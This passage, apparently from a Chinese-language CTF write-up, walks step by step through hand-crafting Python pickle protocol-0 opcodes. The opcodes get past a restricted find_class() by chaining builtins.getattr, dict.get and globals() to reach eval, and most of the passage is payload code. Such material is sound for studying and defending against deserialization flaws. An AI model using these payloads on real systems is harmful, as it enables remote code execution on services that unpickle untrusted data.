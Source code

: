 再掉头回去思考opcode的编写。重写`find_class()`之后限制很多，但通过builtins仍然可以用`getattr()`；那么就分两步走，先通过`builtins.getattr('builtins, 'eval')`来获取`eval()`，再执行代码。那么如何手写protocol=0的opcode捏？

首先引入模块builtins和函数getattr

```python
cbuiltins
getattr
```

然后需要获取当前的上下文，用globals()

```python
cbuiltins
globals
```

globals是个字典，所以还要获取dict这个对象

```python
cbuiltins
dict
```

还要执行globals()获取完整上下文

```python
cbuiltins
globals
(tR
```

栈顶元素是builtins.globals，压入一个空元组`(t`，然后用`R`执行

然后用dict.get()方法从globals的字典中拿到键名为builtions的值

```python
cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tR.
```

反序列化后得到builtins对象`<module 'builtins' (built-in)>`；之后再用getattr从builtins对象中取出eval，也就是再套一层娃

```python
cbuiltins
getattr
(cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRS'eval'
tR.
```
